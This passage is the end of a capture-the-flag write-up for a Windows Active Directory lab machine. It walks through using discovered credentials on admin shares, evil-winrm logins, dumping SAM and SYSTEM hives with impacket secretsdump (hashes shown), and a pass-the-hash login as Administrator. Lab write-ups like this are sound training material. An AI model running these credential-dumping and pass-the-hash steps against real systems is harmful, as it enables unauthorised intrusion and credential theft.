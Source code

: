 Trying this combination against the locked shares `ADMIN$`, `C$`, we see we now have access to both of them.

Looking inside `C$`, we find the user flag inside `\Users\emily.oscars.CICADA\Desktop\user.txt`

We also find some privesc software inside this directory, namely `winpeas`. I hate this, and it happens a lot on linux machines too. It tells you exactly what needs to be done next. Bad game design.

Anyway, we can now claim the `user` flag.

Next, lets try getting into through the `WinRM` service using these credentials (the service is available, as seen before)

```
docker run --rm -ti --name evil-winrm -v /home/foo/ps1_scripts:/ps1_scripts -v /home/foo/exe_files:/exe_files -v /home/foo/data:/data oscarakaelvis/evil-winrm -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/ps1_scripts/' -e '/exe_files/'

docker run --rm -ti --name evil-winrm oscarakaelvis/evil-winrm -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!'

sudo docker run --rm -ti --name evil-winrm oscarakaelvis/evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

Now, lets download the sam and system database files in the `Documents\` folder and check

Let's use `impacket/secretsdump.py`

`docker run -it --rm "impacket:latest" -v <location to sam and system hives>:/hives
```
/ # secretsdump.py -sam hives/sam -system hives/system LOCAL
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

Now that we have the admin password hash, lets pass it using `Evil-WinRM`

`sudo docker run --rm -i --name evil-winrm oscarakaelvis/evil-winrm -i 10.10.11.35 -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'`
```
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
whoami
cicada\administrator
```

Now, we can grab and submit the `root.txt` file from `..\Desktop`

---
# References
- [exploit.ph: AD Recon](https://exploit.ph/active-directory-recon-1.html)
- [Hacktricks: Pentesting SMB](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)
- [HDKS: MSRPC Pentesting](https://exploit-notes.hdks.org/exploit/windows/protocol/msrpc-pentesting/)
- [HTB: Forest Writeup (ZeusCybersec)](https://sparshjazz.medium.com/hackthebox-forest-writeup-active-directory-51e009f347c5)